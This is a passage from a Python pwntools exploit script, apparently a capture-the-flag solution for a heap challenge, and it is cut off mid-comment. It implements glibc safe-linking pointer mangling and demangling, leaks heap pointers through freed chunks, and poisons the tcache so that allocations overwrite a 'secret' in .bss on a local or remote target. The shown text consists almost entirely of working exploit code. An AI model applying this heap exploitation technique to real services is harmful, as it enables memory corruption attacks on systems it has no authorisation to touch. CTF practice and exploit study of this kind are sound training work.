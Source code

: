 ```python
def quit():
    target.sendlineafter(b": ", b"quit")


def mangle(pos, ptr, shifted=1):
    if shifted:
        return pos ^ ptr
    return (pos >> 12) ^ ptr


def demangle(pos, ptr, shifted=1):
    if shifted:
        return mangle(pos, ptr)
    return mangle(pos, ptr, 0)


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)

    puts(0)
    target.recvuntil(b"Data: ")
    mangled = int.from_bytes(target.recvline().strip(), "little")

    puts(1)
    target.recvuntil(b"Data: ")
    pos = int.from_bytes(target.recvline().strip(), "little")
    heap = demangle(pos, mangled)

    secret = elf.bss() + 0x1CE90
    secret_mangled_1 = mangle(pos, secret)
    secret_mangled_2 = mangle(pos, (secret - 0x8))

    target.success(f"pos: {hex(pos)}")
    target.success(f"mangled: {hex(mangled)}")
    target.success(f"heap: {hex(heap)}")
    target.success(f"secret: {hex(secret)}")
    target.success(f"secret_mangled_1: {hex(secret_mangled_1)}")
    target.success(f"secret_mangled_2: {hex(secret_mangled_2)}")

    scanf(0, flat(secret_mangled_1))
    malloc(0, 0)

    # the following malloc will be done 2 things:
    # 1/ zero out the last 8 bytes secret
    # 2/ let the first 8 bytes secret value to be the appropriate tcache bin's
    #    header
    malloc(0, 0)

    malloc(0, 0)
    # now the following free will use the value left on tcache bin header,
```